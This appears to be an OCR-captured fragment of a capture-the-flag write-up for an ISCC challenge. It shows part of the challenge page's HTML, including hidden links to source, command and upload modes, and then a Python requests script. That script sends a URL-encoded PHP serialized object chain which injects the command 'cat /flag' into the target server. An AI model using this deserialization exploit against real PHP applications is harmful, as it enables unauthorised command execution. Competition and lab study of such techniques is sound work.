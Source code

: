 ```php
    "shape": {
      "type": "circle"
    },
    "size": {
      "value": 10,
      "random": true
    },
    "line_linked": {
      "enable": false
    },
    "move": {
      "enable": true,
      "speed": 2,
      "direction": "bottom",
      "straight": false
    }
  },
  "interactivity": {
    "detect_on": "canvas",
    "events": {
      "onhover": {
        "enable": false
      }
    },
    "modes": {
      "push": {
        "particles_nb": 12
      }
    }
  }
});
</script>
<!--
<a href="/?whatareyounongshane=src">我真的是源码?</a>
<a href="/?whatareyounongshane=cmd">干点好事!</a>
<a href="/?whatareyounongshane=upload">送点东西!</a>
<a href="/?whatareyounongshane=tellmetruth">快告诉我真相!</a>
-->
</body> 
所以哪个ISCC是真的？
```

```python
import requests

url="http://39.96.91.106:7050/"

files={
    'iscc_file':("b",open("1.png","rb")),
    "_SESSION":("isccIsCciScc1scc","hello")
}

r=requests.post(url=url+"??=O%3A11%3A%22ISCC_Upload%22%3A1%3A%7BS%3A1%3A%22a%22%3BO%3A13%3A%22ISCC_ReSetCMD%22%3A2%3A%7BS%3A10%3A%22%00%5C2a%00new_cmd%22%3BS%3A9%3A%22cat+%2Fflag%22%3BS%3A1%3A%22b%22%3BO%3A12%3A%22ISCC_Command%22%3A0%3A%7B%7D%7D%7D",files=files)
print(r.text)
```

